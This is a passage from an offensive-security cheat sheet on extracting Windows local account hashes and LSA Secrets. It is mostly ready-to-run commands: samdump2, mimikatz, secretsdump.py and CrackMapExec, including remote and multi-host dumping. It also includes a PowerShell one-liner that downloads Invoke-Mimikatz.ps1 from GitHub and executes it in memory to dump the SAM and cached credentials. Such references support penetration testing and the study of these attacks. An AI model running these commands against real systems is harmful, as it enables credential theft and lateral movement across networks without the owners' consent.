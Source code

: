 The Linux tool `samdump2` can be used to extract the credentials from the `SAM`
hive on a Linux system:

```
samdump2 <SYSTEM_FILE> <SAM_FILE>
```

The `Windows 10 Anniversary update`, introduced, in modern Windows operating
systems, a new encryption scheme, based on `AES`, for the `SAM` database.
`samdump2` has not been updated and will return the
`31d6cfe0d16ae931b73c59d7e0c089c0` hash (blank password or account disabled)
for all local users.

###### Direct local accounts and LSA Secrets extraction through Windows API calls

Alternatively, `mimikatz` may be used directly on the targeted system to
retrieve the local accounts hashes and the `LSA Secrets` through the `Windows
API` (and not by decrypting and parsing the `HKLM\SAM` and `HKLM\SECURITY`
registry hive):

```
# PowerShell in memory injection
# If the compromised host can not access internet, Invoke-Mimikatz.ps1 should be hosted on a local website on the attacking machine
(New-Object System.Net.WebClient).Proxy.Credentials =  [System.Net.CredentialCache]::DefaultNetworkCredentials
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam" "lsadump::cache" "token::revert"';

mimikatz.exe privilege::debug token::elevate lsadump::sam lsadump::cache exit
```

###### Remote SAM and LSA Secrets dump and extraction

The `Impacket`'s `secretsdump.py` Python script and the Python `CrackMapExec`
tool, which is built upon `Impacket`, can be used to remotely dump and extract
the `HKLM\SAM` and `HKLM\SECURITY` registry hives.

`secretsdump.py` leverages the Windows `Remote Registry` service to save the
`HKLM\SAM` and `HKLM\SECURITY` registry hives in the target host
`%SYSTEMROOT%\Temp` directory. The exported hives are then remotely parsed to
extract the credentials.

`CrackMapExec` wraps around `secretsdump.py` and can be used for distributed
dumping of the local accounts and `LSA Secrets` of multiple hosts.

```
# Impacket's secretsdump.py
# NTLM authentication
secretsdump.py [<DOMAIN>/]<USERNAME>[:<PASSWORD>]@<HOSTNAME | IP>
secretsdump.py -hashes <LM_HASH:NT_HASH> [[<DOMAIN>/]<USERNAME>@<HOSTNAME | IP>

# Kerberos authentication
export KRB5CCNAME=<TICKET_CCACHE_FILE_PATH>
secretsdump.py -k -no-pass [-dc-ip <DC_IP>] <HOSTNAME>

# CrackMapExec
# <TARGET | TARGETS> : IP(s), IP range(s), CIDR(s), hostname(s), FQDN(s) or file(s) containing a list of <TARGETS>
# Local accounts - HKLM\SAM
crackmapexec smb <TARGET | TARGETS> --sam (-d <DOMAIN> | --local-auth) -u <USERNAME> (-p <PASSWORD | PASSWORDS_FILE> | -H <HASH>)
# LSA Secrets - `HKLM\SECURITY
crackmapexec smb <TARGET | TARGETS> --lsa (-d <DOMAIN> | --local-auth) -u <USERNAME> (-p <PASSWORD | PASSWORDS_FILE> | -H <HASH>)
```
